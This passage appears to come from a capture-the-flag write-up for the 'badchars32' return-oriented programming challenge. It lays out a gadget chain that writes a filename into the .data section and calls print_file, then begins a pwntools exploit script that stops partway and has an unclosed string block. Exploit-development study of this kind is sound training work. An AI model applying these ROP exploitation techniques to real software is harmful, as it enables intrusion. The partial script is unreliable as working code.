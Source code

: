         _______________________________________
        ebp6
         = edi6 
         = 0x0804a01e                            4B
        _______________________________________
        eip = usefulGadget to store string
        ________________________________________
        eip = usefulGadget to add 1 to \x77
        ________________________________________
        eip = rop gadget to pop edi, esi, ebp
        ________________________________________
        esi7
         = "\x74\x00\x00\x00\x00"
        _______________________________________
        edi7
         = &data + 0x7
         = 0x0804a01f                            4B
        _______________________________________
        ebp7
         = edi7 
         = 0x0804a01f                            4B
        _______________________________________
        eip = usefulGadget to store string
        ________________________________________
	eip = address of print_file function
        ________________________________________
	arguments = address of .data section



# Pwn Script
So now, let's craft our python script accordingly

```python
from pwn import *
from pprint import pprint
offset = 36

context.arch = 'i386'

elf = ELF("./badchars32")
p = elf.process()
# gdb.attach(p, gdbscript='''
# script
''')


p.recvuntil(b">")

# use rop object to locate gadgets in memory
rop = ROP(elf)

# buffer is 40 A's
buf = b"A"*offset

buf += b"\x01\x41\x41\x41"
# print("buf is: ", buf)
# buf += b"CAAA"


# print out rop gadget to make sure that it reads: "pop edi ; pop ebp ; ret"
# print("gadget to pop esi, edi, ebp 1 is at: ", p32(rop.esi.address))
```